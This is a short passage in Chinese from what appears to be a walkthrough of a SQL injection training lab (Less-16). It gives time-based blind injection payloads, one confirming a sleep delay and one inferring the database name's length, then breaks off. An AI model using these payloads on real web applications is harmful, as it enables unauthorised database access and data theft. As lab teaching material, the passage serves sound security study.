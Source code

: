返回了正确页面，由上边返回错误页面这里返回正确页面由此可尝试布尔盲注或时间盲注



+ 判断是否有延时

~~~ shell
admin") and sleep(5) #
~~~

由于<code>1</code>不行没有反应所以<code>admin</code>代替<code>1</code>，而且只能是<code>admin</code>其他字符没有反应

![Less-16_4](./img/Less-16_4.PNG)

页面有延时，则时间盲注可用



+ 爆数据库长度

~~~ shell
admin") and if(length(database())=8,sleep(5),null) #
~~~
